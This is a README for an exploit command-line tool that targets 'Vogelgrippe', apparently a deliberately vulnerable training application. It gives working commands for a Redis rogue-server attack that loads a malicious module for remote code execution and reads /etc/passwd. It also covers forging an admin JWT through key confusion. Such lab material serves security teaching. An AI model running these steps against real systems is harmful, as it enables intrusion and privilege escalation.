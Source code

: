 # Vogelgrippe Exploits CLI

Small command line application written in Python that automates different attack scenarios for the Vogelgrippe application.

## Installation

Create and activate the virtual environment for the `vogelgrippe-exploit` package

```
python -m venv venv
source ./venv/bin/activate
pip install --editable .
```

Check out what you can do now
 
```
vg-exploit --help
```

## General Usage

Make sure to login first

```
vg-exploit login <USERNAME>
```

Next, send your payloads. Make sure to specify the Redis instance that is reachable from the frontend.
Within Docker or K8S, this should be `vogelgrippe-redis:6379`.

```
vg-exploit redis --redis-host vogelgrippe-redis:6379 .\redis_payloads\hackedflag.txt
```

## Remote Code Execution (RCE)

For this exploit to work, you need to first start a Redis rogue server.

This exploit (for Redis 4.x and 5.x) was inspired by [Redis Post-Exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).
The code was taken and adapted from [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server).

The rogue server acts as a fake Redis master host and can upload a shared library to a real Redis.

### Usage

#### Kubernetes Deployment

If you run Vogelgrippe inside K8S it may be that your Redis instance can not access the local rogue server.
For that, build and run the following temporary container in your cluster.
Make sure to use the K8S Docker environment as explained in the root README.

```
docker build --tag redis-rogue-server .\redis_payloads\redis-rogue-server
kubectl run redis-rogue-server --rm -i --tty --expose --port 6666 \
    --image-pull-policy=IfNotPresent --image redis-rogue-server
```

It might be the case that you don't see proper console output.

#### Local Deployment

Build the `module.so` from the already linked git submodule from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

```
git submodule init
git submodule update

cd ./redis_payloads/redis-rogue-server/RedisModules-ExecuteCommand

make
```

Move back to `./redis_payloads/redis-rogue-server` and start the server to listen on all interfaces on port `6666`

```
cd redis-rogue-server
python redis-rogue-server.py --lhost 0.0.0.0 --lport 6666
```

Inside the `./redis_payloads/rce.txt` change the `SLAVEOF` command so that it points to the ip address and port of your rogue server.
Then, run the RCE exploit, which makes our rogue server a slave and injects the `module.so` to `/tmp/exp.so`

```
vg-exploit redis --redis-host vogelgrippe-redis:6379 .\redis_payloads\rce.txt
```

You should see some output on your rogue server on success and the exploit should already have created the file `/tmp/maliciousfile`

The compromised Redis instance can now execute arbitrary code like so

```
$ redis-cli
127.0.0.1:6379> system.exec cat${IFS}/etc/passwd
# will print /etc/passwd from Redis host
```

You don't need the rogue server anymore.

## JWT KeyConfusion Attack
For this exploit to work you need login via the login-command before.
Further details and a writeup about the vulnerability are available in the user-auth-service project.

### Usage
To forge a JWT token just provide the usertag which is a combination of username:userid.

!Attention! The username and userid have to match, otherwise the forged token will not have the right permissions.
```
$ vg-exploit forge-token admin:1
```

Now you can either use vg-exploit with the forged-user(logged in automatically) or use the forged token, which is printed to the command-line manually.

